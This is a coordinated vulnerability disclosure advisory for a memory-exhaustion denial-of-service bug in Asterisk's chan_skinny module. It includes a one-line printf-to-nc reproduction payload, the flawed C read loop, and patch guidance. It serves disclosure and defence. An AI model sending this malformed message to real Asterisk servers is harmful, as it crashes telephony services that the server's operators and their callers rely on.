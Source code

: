 # Asterisk Skinny memory exhaustion vulnerability leads to DoS

- Authors: 
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Vulnerable version: Asterisk 14.4.0 with `chan_skinny` enabled
- References: AST-2017-004
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2017-03-asterisk-chan-skinny-crash>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2017-004.html>
- Timeline:
    - Report date: 2017-04-13
    - Digium confirmed issue: 2017-04-13
    - Digium patch and advisory: 2017-05-19
    - Enable Security advisory: 2017-05-23

## Description

Sending one malformed Skinny message to port 2000 will exhaust Asterisk's memory resulting in a crash.

## Impact

Abuse of this issue allows attackers to crash Asterisk when Skinny is exposed to attackers.

## How to reproduce the issue

Start Asterisk and make sure the `chan_skinny` module is loaded. Then execute:

	printf "\x38\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x53\x45\x50\x30\x30\x30\x39" | nc localhost 2000
	
After a few seconds Asterisk will crash since it will be using all of the available memory. Different malformed strings will crash the server faster or slower depending on the amount by which `req->data` is extended.


The malformed message will throw the following errors in Asterisk:

	[Apr  6 09:35:26] WARNING[6893]: chan_skinny.c:7587 skinny_session: Partial data received, waiting (35 bytes read of 52)

while it will loop forever. This is due to the following code:

```c
while (1) {	
	if ((res = read(s->fd, ((char*)&req->data)+bytesread, dlen-bytesread)) < 0) {
		ast_log(LOG_WARNING, "Data read() returned error: %s\n", strerror(errno));
		break;
	}
	bytesread += res;
	if (bytesread >= dlen) {
		if (res < bytesread) {
			ast_log(LOG_WARNING, "Rest of partial data received.\n");
		}
		if (bytesread > dlen) {
			ast_log(LOG_WARNING, "Client sent wrong amount of data (%d), expected (%d).\n", bytesread, dlen);
			res = -1;
		}
		break;
	}

	ast_log(LOG_WARNING, "Partial data received, waiting (%d bytes read of %d)\n", bytesread, dlen);
	if (sched_yield() < 0) {
		ast_log(LOG_WARNING, "Data yield() returned error: %s\n", strerror(errno));
		res = -1;
		break;
	}
}
```

The reason appears to be that `res` always returns 0 so `bytesread` will not grow and the loop never breaks. However `req->data` will continue to expand until all the memory is exhausted. 

This issue was found through basic manual testing, before attempting to start fuzzing `chan_skinny`.

![Memory usage while Asterisk receives a malformed skinny message](mem-graph.png)

## Solutions and recommendations

Apply fix issued by Asterisk, upgrade to Asterisk 13.15.1, 14.4.1 or 13.13-cert4. Enable Security highly recommends disabling this module.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.